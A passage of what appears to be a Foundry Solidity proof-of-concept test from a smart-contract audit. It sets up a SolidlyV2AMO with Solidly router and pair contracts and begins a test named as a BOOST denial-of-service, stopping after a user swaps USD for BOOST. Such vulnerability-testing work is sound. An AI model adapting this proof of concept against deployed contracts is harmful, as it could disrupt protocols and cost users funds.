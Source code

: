 ```solidity
        boost.grantRole(boost.PAUSER_ROLE(), pauser);
        minter.grantRole(minter.MINTER_ROLE(), address(this));
        
        solidlyV2Factory = IFactory(0x777de5Fe8117cAAA7B44f396E93a401Cf5c9D4d6);
        solidlyV2Router = ISolidlyRouter(0x77784f96C936042A3ADB1dD29C91a55EB2A4219f);
        ve = Ive(0x77730ed992D286c53F3A0838232c3957dAeaaF73);
        solidlyV2BribeFactory = ISolidlyV2BribeFactory(0x2Dadc1f40eb0237BEc549862F9DEC002509ea381);
        bribe = IBribe(solidlyV2BribeFactory.createBribe());
        address pair = solidlyV2Factory.createPair(address(boost), address(usd), true);
        solidlyV2Pair = IPair(pair);

        address rewardVault = makeAddr("rewardVault");
        solidlyV2AMO = new SolidlyV2AMO();
        solidlyV2AMO = SolidlyV2AMO(
            address(
                new TransparentUpgradeableProxy(
                    address(solidlyV2AMO),
                    msig,
                    abi.encodeCall(
                        SolidlyV2AMO.initialize,
                        (
                            admin,
                            address(boost),
                            address(usd),
                            address(minter),
                            address(solidlyV2Router),
                            address(rewardVault),
                            address(rewardVault),
                            tokenId,
                            useTokenId,
                            boostMultiplier,
                            validRangeWidth,
                            validRemovingRatio,
                            boostLowerPriceSell,
                            boostUpperPriceBuy,
                            boostSellRatio,
                            usdBuyRatio
                        )
                    )
                )
            )
        );
        vm.stopPrank();
        _initLiquidity();
    }

    function testFail_BOOST_DOS() public {
        // User2 obtains BOOST stablecoin by swapping USD for BOOST within the Pool.
        address user2 = makeAddr("user2");
        usd.mint(user2, 100e6);
        vm.startPrank(user2);
        usd.approve(address(solidlyV2Router), 100e6);
        ISolidlyRouter.route[] memory path = new ISolidlyRouter.route[](1);
        path[0] = ISolidlyRouter.route({from: address(usd), to: address(boost), stable: true});

        uint256[] memory amounts = solidlyV2Router.swapExactTokensForTokens(
            100e6,
            0,
            path,
            user2,
            block.timestamp + 1 days
        );

```